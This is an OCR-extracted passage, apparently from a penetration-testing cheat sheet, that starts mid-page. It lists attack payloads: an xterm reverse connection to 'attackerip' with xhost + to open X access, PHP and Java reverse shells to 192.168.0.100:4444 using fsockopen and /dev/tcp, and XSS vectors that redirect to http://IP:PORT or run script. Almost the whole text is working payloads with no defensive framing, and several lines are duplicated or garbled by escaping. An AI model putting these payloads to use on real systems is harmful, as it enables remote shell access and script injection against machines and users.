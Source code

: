 xterm -display 127.0.0.1:1 \# Run this OUTSIDE the Xnest, another tab

xhost +targetip \# Run this INSIDE the spawned xterm on the open X Server

If you want anyone to connect to this spawned xterm try:

xhost + \# Run this INSIDE the spawned xterm on the open X Server

xhost + \# Run this INSIDE the spawned xterm on the open X Server

Then on the target, assuming that xterm is installed, connect back to the open X Server on your system:

xterm -display attackerip:1

xterm -display attackerip:1

Or:

$ DISPLAY=attackerip:0 xterm

$ DISPLAY=attackerip:0 xterm

It will try to connect back to you, attackerip, on TCP port 6001.

Note that on Solaris xterm path is usually not within the PATH environment variable, you need to specify its filepath:

/usr/openwin/bin/xterm -display attackerip:1

/usr/openwin/bin/xterm -display attackerip:1

**PHP:  
**

php -r ‘$sock=fsockopen\(“192.168.0.100″,4444\);exec\(“/bin/sh -i &lt;&3 &gt;&3 2&gt;&3″\);’

**JAVA:  
**

r = Runtime.getRuntime\(\)

p = r.exec\(\[“/bin/bash”,”-c”,”exec 5&lt;&gt;/dev/tcp/192.168.0.100/4444;cat &lt;&5 \| while read line; do $line 2&gt;&5 &gt;&5; done”\] as String\[\]\)

p.waitFor\(\)

XSS Cheat Codes:

\(“&lt; iframes &gt;  src=[http://IP:PORT](http://IP:PORT) &lt;/ iframes &gt;”\)

&lt;script&gt;document.location=[http://IP:PORT&lt;/script&gt](http://IP:PORT</script&gt);

‘;alert\(String.fromCharCode\(88,83,83\)\)//\';alert\(String.fromCharCode\(88,83,83\)\)//”;alert\(String.fromCharCode\(88,83,83\)\)//\”;alert\(String.fromCharCode\(88,83,83\)\)//–&gt;&lt;/SCRIPT&gt;”&gt;’&gt;&lt;SCRIPT&gt;alert\(String.fromCharCode\(88,83,83\)\)&lt;/SCRIPT&gt;

”;!–“&lt;XSS&gt;=&amp;{\(\)}

&lt;IMG SRC=”javascript:alert\(‘XSS’\);”&gt;

&lt;IMG SRC=javascript:alert\(‘XSS’\)&gt;

&lt;IMG “””&gt;&lt;SCRIPT&gt;alert\(“XSS”\)&lt;/SCRIPT&gt;”&gt;
